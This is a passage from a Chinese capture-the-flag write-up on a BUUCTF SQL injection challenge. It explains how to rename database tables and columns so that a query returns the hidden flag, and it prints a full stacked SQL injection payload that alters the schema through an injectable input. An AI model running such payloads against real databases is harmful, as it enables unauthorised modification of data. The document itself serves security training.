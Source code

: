 ![](/img/BUUCTF_SQL刷题/TnErbguBhoNNlgxeylXc356Fnh7.png)

那么我们可以把 words 表随便改成其他名称，然后把目标 1919810931114514 表改成 words，再把列名 flag 改成 data，在最前列添加 id 列即可实现查询

`1'; alter table words rename to words1;alter table ` 1919810931114514 `rename to words;alter table words change flag data varchar(50);alter table words add column id int(10) not null first;#`

执行后，先读取了原本 words 表的 id=1 的 data 并返回输出

![](/img/BUUCTF_SQL刷题/H2nHbYVZRoI1r7xBQKZcaohhnRg.png)

